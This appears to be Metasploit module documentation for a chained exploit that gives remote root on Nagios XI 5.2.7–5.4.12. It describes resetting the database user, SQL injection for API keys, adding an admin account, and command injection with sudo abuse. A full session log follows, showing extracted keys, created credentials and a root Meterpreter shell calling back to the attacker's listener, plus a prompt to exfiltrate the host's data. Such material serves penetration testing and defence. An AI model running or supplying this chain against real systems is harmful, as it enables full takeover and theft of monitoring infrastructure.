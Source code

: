 ## Vulnerable Application
	Nagios XI 5.2.7 - 5.4.12 Chained Remote Root RCE

	This exploit combines many different vulnerabilities in Nagios XI to 
  gain remote root access to the affected host. The process is:

  1. Reset the database user to root.
  2. Exploit SQL injection to extract api keys.
  3. Use api key to add administrative user.
  4. Authenticate to application using newly added user.
  5. Exploit command injection and sudo misconfiguration 
     to get remote root shell.
  6. Remove added admin user, and reset database user.
 
  See [our blog post](http://blog.redactedsec.net/exploits/2018/04/26/nagios.html) for more information

## Verification Steps

  1. ```use exploit/linux/http/nagios```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### Nagios 5.2.7 on CentOS 6.7

```
msf > use exploit/linux/http/nagios_xi

msf exploit(nagios_xi) > set LHOST 15.0.0.181
LHOST => 15.0.0.181
msf exploit(nagios_xi) > set RHOST 10.20.1.194
RHOST => 10.20.1.194
msf exploit(nagios_xi) > exploit

[*] Started reverse TCP handler on 15.0.0.181:4444 
[*] STEP 0: Get Nagios XI version string.
[+] STEP 0: Found Nagios XI version: 5.3.0
[*] STEP 1: Setting Nagios XI DB user to root.
[*] STEP 1: Received a 302 Response. That's good!
[*] STEP 2: Exploiting SQLi to extract user API keys.
[*] STEP 2: Received a 302 Response. That's good!
[*] Found 1 unique api keys
[*] 67e52c8b387b0d17cb94b66788adaa40
[*] STEP 3: Using API Keys to add an administrative user...
[*] STEP 3: trying to add admin user with key 67e52c8b387b0d17cb94b66788adaa40
[+] Added user:aYJupLthTjZnwSQb password:heuOsZJMjwUYFpit userid:3
[*] STEP 4.1: Authenticate as user aYJupLthTjZnwSQb with password heuOsZJMjwUYFpit
[*] STEP 4.1: Get NSP and nagiosxi for login..
[*] STEP 4.1: login_nsp 1c52b832891f65d961e69d0db9a583f88c1dddcf637d37405c88d70a5371fe77 
[*] STEP 4.1: login_nagiosxi 5kk73vr4i3g6v1d5ekg2mtgd26
[*] STEP 4.2: Authenticating...
[*] STEP 4.2: authed_nagiosxi 5kk73vr4i3g6v1d5ekg2mtgd26
[*] STEP 5.1: executing payload
[*] STEP 5.2: removing scripts from disc
[*] Command Stager progress - 100.00% done (701/701 bytes)
[*] STEP 6.1: Setting Nagios XI DB user to nagiosql.
[*] STEP 6.1: Received a 302 Response. That's good!
[*] STEP 6.2: deleting admin
[*] Sending stage (847604 bytes) to 10.20.1.194
[*] Meterpreter session 1 opened (15.0.0.181:4444 -> 10.20.1.194:35750) at 2018-04-26 17:36:22 -0400
[*] Be sure to run post/linux/gather/enum_nagios_xi to exfil all the data off this box!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 

```
